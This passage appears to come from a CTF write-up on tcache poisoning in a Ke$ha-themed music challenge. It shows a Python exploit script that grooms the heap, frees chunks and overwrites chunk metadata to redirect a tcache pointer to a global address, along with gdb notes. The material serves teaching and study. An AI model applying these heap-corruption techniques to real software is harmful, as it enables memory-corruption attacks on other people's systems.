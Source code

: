 **Now we have the ability to allocate a ton of 0x20 chunks which will make our tcache attack a breeze (or sleaze as the Ke$ha would say)**

## Now let's use like every gdb add-on ever

What does this look like within the actual program, using `gdb` + `rr` + `gef` + `Pwngdb`? 




```python

for i in range(1,20): # songs 1 - 19 = 0x20 bytes
    import_song("Warrior/")
    
for i in range(20, 30): # songs 20 - 29 = 0x310 bytes
    import_song("Rainbow/godzilla.txt")
    
for i in range(30, 36): # songs 30 - 35 = 0x3c0 bytes
    import_song("Animal/animal.txt")

for i in range(36, 44): # songs 36 - 43 = 0x20 bytes
    import_song("Rainbow/")

album = "Cannibal"
import_song(album + "/" * (24-len(album))) 

play_song("11") # song 44 chunk = "chunk A"
play_song("12") # 0x20 chunk = "chunk B"
play_song("21") # 0x310 chunk  
play_song("13") # 0x20 chunk = "chunk X"

remove_song("13") # free chunk X
remove_song("12") # free chunk B
remove_song("11") # free chunk A

play_song("44") # Pops chunk A from tcache bin 0x20
p.sendline("-1") 
chunkA = p64(0x00) * 2 
chunkB = p64(0x00) + p64(0x21) + p64(0x404078) # address of songs[0].fd

p.send(chunkA + chunkB) # Overwrites chunks A and B

```
This is what the heap looks like after we've free'd our chunks but before we play song #44.

![before_overwrite](https://raw.githubusercontent.com/perribus/ctf_writeups/master/images/before_overwrite.png)

These addresses will change on future runs, because the address of the heap is subject to ASLR, but for now:

```
chunk A = 0x1ad1290
chunk B = 0x1ad12b0
chunk X = 0x1ad15e0
```
